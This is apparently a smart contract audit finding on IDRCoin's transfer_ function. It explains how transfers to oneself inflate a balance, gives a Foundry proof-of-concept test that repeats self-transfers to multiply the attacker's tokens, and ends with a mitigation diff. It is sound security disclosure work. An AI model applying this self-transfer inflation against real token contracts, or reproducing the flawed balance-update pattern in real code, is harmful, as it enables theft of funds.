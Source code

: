 # [H-01] The `IDRCoin::transfer_` function has an unintended effect on the `balances` when a malicious user transfers to themselves.

## Submitter

ZafiN

## Finding description and impact

The issue in the implementation of the update balances function in the `transfer_` function allows an attacker to arbitrary increases the amount of IDRCoin they own when performing a transfer to themselves.

## Proof of Concept


```js

    function transfer_(
        address _sender,
        address _receiver,
        uint256 _amount
    ) internal {
        uint256 balanceSenderBefore = balanceOf(_sender);
        uint256 balanceReceiverBefore = balanceOf(_receiver);

        balances[_sender] = balanceSenderBefore - _amount;
        balances[_receiver] = balanceReceiverBefore + _amount;

        // revert if the _amount is zero. we dont want user to waste gas
        require(
            balances[_sender] != balanceSenderBefore ||
                balances[_receiver] != balanceReceiverBefore,
            ""cant transfer 0 amount""
        );
    }

```

Based on the transfer_ function, an attacker can perform a transfer to themselves because there is no check to verify whether the _sender and _receiver addresses are the same. Now, carefully examine the following section of code.

```js

        uint256 balanceSenderBefore = balanceOf(_sender);
        uint256 balanceReceiverBefore = balanceOf(_receiver);

        balances[_sender] = balanceSenderBefore - _amount;
        balances[_receiver] = balanceReceiverBefore + _amount;

```

If an attacker performs a transfer to themselves, the variables balanceSenderBefore and balanceReceiverBefore will have the same value, which is the attacker's balance, because both the sender and receiver addresses belong to the attacker. Then, the attacker's balance will be updated by subtracting the transfer amount (balanceSenderBefore - _amount). Next, the attacker's balance will be updated again by adding the transfer amount (balanceReceiverBefore + _amount), effectively allowing the attacker to arbitrarily increase their balance.

To verify this, add the following test to `Base.t.sol`:

```js
    function test_arbitraryIncreasesBalanceWhenTransferToYourSelf() public {
        address attacker = makeAddr(""attacker"");

        convertUSDTtoIDR(attacker, 100e6);
        vm.startPrank(attacker);
        uint256 initialAttackerBalance = idrCoin.balanceOf(attacker);

        
        uint256 howManyTransferToYourSelf = 10;

        // attacker transfer the IDRCoin to itself
        for(uint256 i = 0; i < howManyTransferToYourSelf; i++) {
            idrCoin.transfer(attacker, idrCoin.balanceOf(attacker));
        }

        
        uint256 attackerBalanceNow = idrCoin.balanceOf(attacker);
        
        // assert
        assertEq(attackerBalanceNow, (2**howManyTransferToYourSelf) * initialAttackerBalance);

        uint256 increasePercentage = (attackerBalanceNow - initialAttackerBalance) * 100 / initialAttackerBalance;
        console.log('Balance of attacker increase %d percents', increasePercentage); // Big Arbitrary Increases !!!
        
        vm.stopPrank();
    }
```

then run `forge test --mt test_arbitraryIncreasesBalanceWhenTransferToYourSelf -vvv` the exploit test would SUCCESS:

```bash
Ran 1 test for test/Base.t.sol:Base
[PASS] test_arbitraryIncreasesBalanceWhenTransferToYourSelf() (gas: 326464)
Logs:
  user balance:  1408000000000000000000000
  Balance of attacker increase 102300 percents

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 17.40ms (5.90ms CPU time)

Ran 1 test suite in 74.18ms (17.40ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Recommended mitigation steps

modify the balance update implementation, or alternativelym add a check to ensure that the _sender is not the same as the _receiver as shown in the code below:

```diff
diff --git a/src/IDRCoin.sol b/src/IDRCoin.sol
index c9b6d40..8b7715e 100644
--- a/src/IDRCoin.sol
+++ b/src/IDRCoin.sol

@@ -115,7 +116,11 @@ contract IDRCoin is ERC20{
    function transfer_(
        address _sender,
        address _receiver,
        uint256 _amount
    ) internal {
+        require(_sender != _receiver, ""cant transfer to it self"");
+        require(_amount > 0, ""cant transfer 0 amount"");

-        uint256 balanceSenderBefore = balanceOf(_sender);
-        uint256 balanceReceiverBefore = balanceOf(_receiver);

-        balances[_sender] = balanceSenderBefore - _amount;
+        balances[_sender] -= _amount;
-        balances[_receiver] = balanceReceiverBefore + _amount;
+        balances[_receiver] += _amount;

-        // revert if the _amount is zero. we dont want user to waste gas
-        require(
-            balances[_sender] != balanceSenderBefore ||
-                balances[_receiver] != balanceReceiverBefore,
-            ""cant transfer 0 amount""
-        );
    }
     }

```
